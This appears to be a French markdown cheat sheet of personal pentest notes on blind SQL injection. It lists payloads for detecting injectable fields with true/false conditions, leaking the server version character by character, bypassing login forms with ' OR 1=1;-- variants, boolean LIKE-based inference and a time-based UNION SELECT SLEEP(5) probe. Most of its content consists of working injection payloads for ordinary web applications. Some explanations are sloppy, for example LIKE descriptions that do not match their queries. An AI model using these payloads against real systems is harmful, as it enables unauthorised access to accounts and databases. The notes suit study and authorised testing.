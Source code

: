 C'est lorsque nous obtenons peu ou pas de retour pour confirmer si nos requêtes injectées ont réussi ou non, c'est parce que le les messages d'erreur ont été désactivés, mais l'injection fonctionne toujours malgré tout.

---
# Rechercher
La clé pour découvrir une Blind SQL est de se baser sur une relation conditionnelle vrai ou faux. 

```sh
# Vrai
' and 'a'='a

# Faux
' and 'a'='b
```

> [!NOTE] Si la request `vrai` affiche un contenu et la requete `faux` n'affiche pas alors le champ est vulnerable.

---

Affiche la version du serveur 

```sql
' and substring(@@version,1,1)='0
```

> Si sa ne fonctionne pas il faut incrementer la valeur de 0 a 1,2,3,4.... jusqu'a obtenir du contenu comme dans la requete `vrai`.
> Cela affiche le premier caractere de la version du serveur.

---

###### Bypass Authentication

Saisir ce qui suit dans le champ utilisateur ou du mot de passe: 

```sql
' OR 1=1;--
' or 1=1; -- -
') or 1=1; -- -
```

Que se passe-t-il si nous y saisissons `' or true --` dans le champ du nom d'utilisateur ?

```sql
') or true --
```

---
###### Booleans Bases

```sql
select * from <table> where database() like 'a%';
```

Cela renvoie toutes les lignes dont le nom d'utilisateur commence par la lettre a.

```sql
select * from <table> where database() like '%n';
```

Cela renvoie toutes les lignes dont le nom d'utilisateur se termine par la lettre n.

```sql
select * from <table> where username like '%mi%';
```

Cela renvoie toutes les lignes avec un nom d'utilisateur contenant les caractères mi en leur sein.

---
###### Time Base
Au lieu de cela, votre indicateur d'une requête correcte est basé sur le temps que la requête prend pour se terminer. Ce délai est introduit en utilisant des méthodes intégrées telles que **`SLEEP(x)`** parallèlement à l'instruction UNION. 
La méthode sleep ne sera exécutée qu'après une instruction UNION SELECT réussie.

> S'il n'y a pas eu de pause dans le temps de réponse, on sait que la requête a échoué.

```sql
admin123' UNION SELECT SLEEP(5),2;--
```